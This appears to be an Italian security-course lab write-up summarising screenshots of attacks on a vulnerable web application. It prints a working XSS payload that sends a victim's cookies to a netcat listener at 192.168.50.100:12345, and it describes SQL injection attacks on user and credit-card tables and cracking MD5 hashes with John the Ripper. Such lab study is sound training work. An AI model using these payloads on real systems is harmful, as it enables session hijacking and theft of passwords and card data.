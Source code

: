 # LezioneS6_L5

# Screenshot 1:  Lo script <script>window.location="http://192.168.50.100:12345/?cookie"+document.cookie</script> imposta la posizione del browser a un URL specifico ('http://192.168.50.100:12345/') aggiungendo i cookie dell'utente (document.cookie) alla fine dell'URL come parametro.
# Screenshot 2:  Il server rimane in ascolto sulla porta 12345. Quando un client si connetterà a questa porta, netcat mostrerà i dati inviati dal client sullo stdout
# Screenshot 3:  La stringa è un'attacco di SQL injection per recuperare le informazioni sugli utenti e le password dalla tabella users di un database.
# Screenshot 4:  Il comando esguito è una chiamata al programma John the Ripper, un popolare strumento di cracking delle password. Questo comando viene utilizzato per eseguire un attacco di forza bruta o di dizionario per cercare di recuperare le password da un file hash MD5.
# Screenshot 5:  Questa stringa è simile allo screenshot 3, dove l'obiettivo è quello di ottenere informazioni sensibili come il numero della carta di credito (ccnumber) e il codice di verifica della carta di credito (ccv) dalla tabella credit_cards.
# Screenshot 6:  Questa stringa è un tentativo di attacco di SQL injection, simile allo Screenshot 3 e 5. L'obiettivo sembra essere quello di recuperare informazioni sensibili come i numeri delle carte di credito (ccnumber) e le date di scadenza delle carte di credito (expiration) dalla tabella credit_cards di un database, presumibilmente all'interno di un'applicazione vulnerabile.
# Screenshot 7:  Questa stringa esegue un'attacco di SQL injection per ottenere informazioni sulle colonne della tabella credit_cards da uno schema di informazioni (information_schema).
# Screenshot 8:  Questa stringa è un attacco di SQL injection per ottenere informazioni sulle tabelle presenti nel database utilizzando lo schema di informazioni (information_schema).
# Screenshot 9:  Questa stringa esegue un attacco di SQL injection per ottenere informazioni sulle tabelle presenti nel database utilizzando lo schema di informazioni (information_schema).
# Screenshot 10: Questa stringa esegue un attacco di SQL injection per recuperare informazioni sulle colonne della tabella 'users' utilizzando lo schema di informazioni (information_schema)
# Screenshot 11: Questa stringa esegue un attacco di Cross-Site Scripting (XSS) inserendo uno script JavaScript malevolo all'interno di un input, come un campo di un modulo web. Lo script <script>alert(document.cookie)</script> è progettato per mostrare una finestra di avviso nel browser dell'utente contenente il valore dei cookie del sito web corrente.
# Screenshot 12: Questa stringa esegue un'attacco di SQL injection in ambiente security level Medium per recuperare le informazioni sugli utenti e le relative password dalla tabella users di un database. L'obiettivo di questa query è quello di combinare i risultati della condizione 1 = 1 (che è sempre vera) con i risultati della selezione delle colonne user e password dalla tabella users.

